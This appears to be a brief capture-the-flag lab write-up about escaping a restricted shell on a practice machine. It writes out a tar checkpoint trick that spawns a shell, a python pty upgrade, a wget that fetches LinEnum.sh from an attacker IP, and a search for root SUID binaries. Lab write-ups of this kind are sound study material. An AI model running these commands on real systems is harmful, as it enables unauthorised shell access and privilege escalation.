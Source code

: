 
ESCAPE FROM AYUSH JAIL

Escaping from this jail was pretty tough because none of the basic techiquies worked for me. 
Able to use the tar wild card method to generate a shell. i believe this is a easter egg to tartarsauce.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

BEYOND THE ESCAPE

upgrading tty to something easier to use, 

```
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```

next step transfer off mail

```
/usr/bin/python -m SimpleHTTPServer 9030
/usr/bin/wget http://10.10.14.14:9030/LinEnum.sh  
```



```
inside mail directory i felt
/bin/ls -la
/bin/ls -la
total 20
drwx------ 3 ayush ayush 4096 Oct 28 12:17 .
drwx------ 6 ayush ayush 4096 Feb 11 03:37 ..
-rw------- 1 ayush ayush 2638 Oct 28 12:16 Drafts
drwx------ 5 ayush ayush 4096 Oct 28 12:13 .imap
-rw------- 1 ayush ayush    0 Oct 28 12:10 Sent
-rw------- 1 ayush ayush   17 Oct 28 12:13 .subscriptions
```

```
/bin/ls -la
total 32
drwx------ 5 ayush ayush 4096 Oct 28 12:13 .
drwx------ 3 ayush ayush 4096 Oct 28 12:17 ..
-rw------- 1 ayush ayush 4028 Oct 28 12:16 dovecot.list.index.log
-rw------- 1 ayush ayush   48 Oct 28 12:13 dovecot.mailbox.log
-rw------- 1 ayush ayush    8 Oct 28 12:13 dovecot-uidvalidity
-r--r--r-- 1 ayush ayush    0 Oct 28 12:10 dovecot-uidvalidity.5bd5a723
drwx------ 2 ayush ayush 4096 Oct 28 12:13 Drafts
drwx------ 2 ayush ayush 4096 Oct 28 12:10 INBOX
drwx------ 2 ayush ayush 4096 Oct 28 12:10 Sent
```

Find Suin perms

```
/usr/bin/find / -user root -perm -4000 -print 2>/dev/null

/ -user root -perm -4000 -print 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/gpasswd
```